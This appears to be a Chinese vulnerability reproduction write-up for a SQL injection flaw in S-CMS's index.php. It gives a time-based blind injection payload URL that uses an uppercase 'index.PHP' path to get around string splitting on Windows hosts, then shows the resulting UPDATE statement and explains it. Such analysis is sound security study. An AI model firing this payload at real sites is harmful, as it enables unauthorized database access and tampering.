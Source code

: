 # S-CMS sql注入漏洞（二）

> 原文：[https://www.zhihuifly.com/t/topic/3109](https://www.zhihuifly.com/t/topic/3109)

# S-CMS sql注入漏洞（二）

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

漏洞位置：`index.php`

![image](img/d9981bb34a7b6cb3ce97058fcadfb416.png)

跟进函数`splitx()`

```
function splitx($a, $b, $c)
{
    $d = explode($b, $a);
    return $d[$c];
} 
```

先上**payload**

```
http://www.0-sec.org/index.PHP/a'%20where%20if(1,sleep(5),1)%23?action=update_dir 
```

拼凑SQL语句

```
update TABLE_config set C_dir='index.PHP/a' where if(1,sleep(5),1)#' 
```

**解释**

**$_SERVER[‘PHP_SELF’]**：获取当前文件的路径

> 如：127.0.0.1/xxe/xml.php => /xxe/xml.php

**explode(separator,string,limit)**：分割字符串形成数组

> separator：规定在哪里分割字符串。
> 
> string：要分割的字符串。
> 
> limit：规定所返回的数组元素的数目。

如果使用`index.php`，结果如下：

```
array (size=2)
  0 => string '/index.php/' (length=5)
  1 => string '/a' where if(1,sleep(5),1)#' (length=27) 
```

被截断，但若使用`index.PHP`：

```
array (size=1)
  0 => string '/index.PHP/a' where if(1,sleep(5),1)#' (length=39) 
```

前提：Windows系统下不区分文件大小写。

## 参考链接

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/